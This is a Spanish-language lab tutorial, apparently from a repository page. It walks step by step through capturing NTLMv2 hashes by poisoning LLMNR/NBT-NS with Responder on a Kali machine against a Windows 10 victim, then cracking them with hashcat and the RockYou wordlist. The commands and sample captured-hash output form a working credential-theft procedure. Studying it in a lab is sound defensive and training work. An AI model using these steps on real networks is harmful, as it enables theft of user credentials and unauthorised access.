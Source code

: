 
### 🧪 Ejemplo completo paso a paso

#### 🧑‍💻 Entorno de laboratorio

- Kali Linux (Atacante)
- Windows 10 (Víctima) unida a una red virtual o física

#### 📡 Paso 1: Verifica tu interfaz de red

```bash
ip a
```

Ejemplo de interfaz: `eth0`, `ens33`, `wlan0`, etc.

#### 🚀 Paso 2: Ejecuta Responder

```bash
sudo responder -I eth0
```

> Sustituye `eth0` por tu interfaz de red.

Responder empieza a escuchar tráfico LLMNR, NBT-NS y mDNS.

#### 🎯 Paso 3: Provoca una resolución de nombre fallida en la víctima

Desde la máquina Windows:

```cmd
\\inexistente\recurso
```

Este intento fallido activará la búsqueda LLMNR/NBT-NS.

Responder capturará algo como:

```plaintext
[+] NTLMv2-SSP Hash     : usuario::DOMINIO:1234567890ABCDEF...
```

¡Hash capturado con éxito!

---

#### 🔓 Paso 4: Crackear el hash con Hashcat

1. Guarda el hash en `hashes.txt`.

2. Usa Hashcat con el diccionario RockYou:

```bash
hashcat -m 5600 -a 0 hashes.txt rockyou.txt
```

> `-m 5600` es el modo para NTLMv2

---
